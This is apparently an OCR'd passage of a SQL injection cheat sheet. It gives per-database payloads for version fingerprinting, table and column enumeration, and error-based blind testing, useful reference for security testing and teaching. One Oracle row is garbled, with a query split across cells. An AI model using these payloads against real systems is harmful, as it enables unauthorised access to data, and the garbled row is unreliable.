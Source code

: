 ## Database version
You can query the database to determine its type and version. This information is useful when formulating more complicated attacks.

| Database   | Payload                      |
|------------|------------------------------|
| Oracle     | SELECT banner FROM v$version |
| SELECT     | version FROM v$instance      |
| Microsoft  | SELECT @@version             |
| PostgreSQL | SELECT version()             |
| MySQL      | SELECT @@version             |

## Database contents
You can list the tables that exist in the database, and the columns that those tables contain.

| Database   | Payload                                                                       |
|------------|-------------------------------------------------------------------------------|
| Oracle     | SELECT * FROM all_tables                                                      |
|            | SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'            |
| Microsoft  | SELECT * FROM information_schema.tables                                       |
|            | SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE' |
| PostgreSQL | SELECT * FROM information_schema.tables                                       |
|            | SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE' |
| MySQL      | SELECT * FROM information_schema.tables                                       |
|            | SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE' |

## Conditional errors
You can test a single boolean condition and trigger a database error if the condition is true.

| Database   | Payload                                                                               |
|------------|---------------------------------------------------------------------------------------|
| Oracle     | SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN to_char(1/0) ELSE NULL END FROM dual      |
| Microsoft  | SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END                         |
| PostgreSQL | SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN cast(1/0 as text) ELSE NULL END           |
| MySQL      | SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a') |

## Batched (or stacked) queries
You can use batched queries to execute multiple queries in succession. Note that while the subsequent queries are executed, the results are not returned to the application. Hence this technique is primarily of use in relation to blind vulnerabilities where you can use a second query to trigger a DNS lookup, conditional error, or time delay.
